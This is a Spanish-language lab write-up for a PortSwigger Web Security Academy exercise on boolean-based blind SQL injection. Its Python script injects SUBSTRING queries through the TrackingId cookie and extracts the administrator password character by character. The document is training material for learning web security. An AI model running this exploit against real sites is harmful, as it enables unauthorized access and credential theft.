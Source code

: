 En esta última parte completamos la explotación de la inyección SQL ciega mediante la extracción carácter a carácter del campo ‘**password**‘.

Utilizamos Burp Intruder para automatizar el proceso, iterando sobre posiciones y posibles valores hasta reconstruir por completo la contraseña. Aprendes a usar funciones como ‘**SUBSTRING**‘ y a reconocer las respuestas válidas para cada intento.

Una vez extraída la contraseña, accedemos con ella como administrador para completar el laboratorio.

![[Pasted image 20250702183649.png]]
![[Pasted image 20250702184020.png]]
codigo llamado sqli.py
#!/usr/bin/env python3
from pwn import *
from termcolor import colored 
import requests 
import sys
import signal
import string
import time

def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 

p1 = log.progress("SQLI")

def makeSQLI():

    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters: 
            cookies = {
                'TrackingId': f"@tYdW3Ti@pJdmnVo' and (select substring(password,{position},1) from users where username='administrator')='{character}' -- ",
                'session': "xkwHU4bggBmEx0ijIEHAYx0fgb60eemG"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0afd00540433ac10815c1df5003a00c5.web-security-academy.net", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLI()

Resultado
![[Pasted image 20250702190437.png]]
![[Pasted image 20250702190536.png]]
